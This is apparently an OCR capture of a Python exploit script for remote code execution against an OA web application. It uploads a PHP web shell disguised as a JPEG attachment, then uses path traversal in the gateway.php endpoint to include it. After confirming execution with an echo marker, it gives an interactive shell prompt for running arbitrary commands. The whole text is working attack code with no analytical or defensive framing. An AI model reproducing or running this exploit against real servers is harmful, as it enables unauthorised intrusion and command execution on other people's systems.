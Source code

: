 ```
    data = "-----------------------------27723940316706158781839860668\\r\\nContent-Disposition: form-data; name=\\"ATTACHMENT\\"; filename=\\"jpg\\"\\r\\nContent-Type: image/jpeg\\r\\n\\r\\n<?php\\r\\n$command=$\_POST\['cmd'\];\\r\\n$wsh = new COM('WScript.shell');\\r\\n$exec = $wsh->exec(\\"cmd /c \\".$command);\\r\\n$stdout = $exec->StdOut();\\r\\n$stroutput = $stdout->ReadAll();\\r\\necho $stroutput;\\r\\n?>\\n\\r\\n-----------------------------27723940316706158781839860668\\r\\nContent-Disposition: form-data; name=\\"P\\"\\r\\n\\r\\n1\\r\\n-----------------------------27723940316706158781839860668\\r\\nContent-Disposition: form-data; name=\\"DEST\_UID\\"\\r\\n\\r\\n1222222\\r\\n-----------------------------27723940316706158781839860668\\r\\nContent-Disposition: form-data; name=\\"UPLOAD\_MODE\\"\\r\\n\\r\\n1\\r\\n-----------------------------27723940316706158781839860668--\\r\\n"
    req = requests.post(url=upurl, headers=headers, data=data)
    filename = "".join(re.findall("2003\_(.+?)\\|",req.text))
    in\_url = url + '/ispirit/interface/gateway.php'
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "X-Forwarded-For": "127.0.0.1", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded"}
    data = "json=
{\\"url\\":\\"../../../general/../attach/im/2003/%s.jpg\\"}&cmd=%s" % 
(filename,"echo php00py")
    include\_req = requests.post(url=in\_url, headers=headers, data=data)
    if  'php00py' in include\_req.text:
        print("\[+\] OA RCE vulnerability ")
        return filename
    else:
        print("\[-\] Not OA RCE vulnerability ")
        return False
def oa\_rce(url, filename,command):
    url = url + '/ispirit/interface/gateway.php'
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.9 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,\*/\*;q=0.8", "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded"}
    data = "json=
{\\"url\\":\\"../../../general/../attach/im/2003/%s.jpg\\"}&cmd=%s" % 
(filename,command)
    req = requests.post(url, headers=headers, data=data)
    print(req.text)

if \_\_name\_\_ == '\_\_main\_\_':
        if len(sys.argv) < 2:
            print("please input your url python oa\_rce.py http://127.0.0.1:8181")
        else:
            url = sys.argv\[1\]
            filename = oa(url)
            while filename:
                try:
                    command = input("wran@shelLhost#")
                    if command == "exit" or command == "quit":
                        break
                    else:
                        oa\_rce(url,filename,command)
                except KeyboardInterrupt:
                    break
```
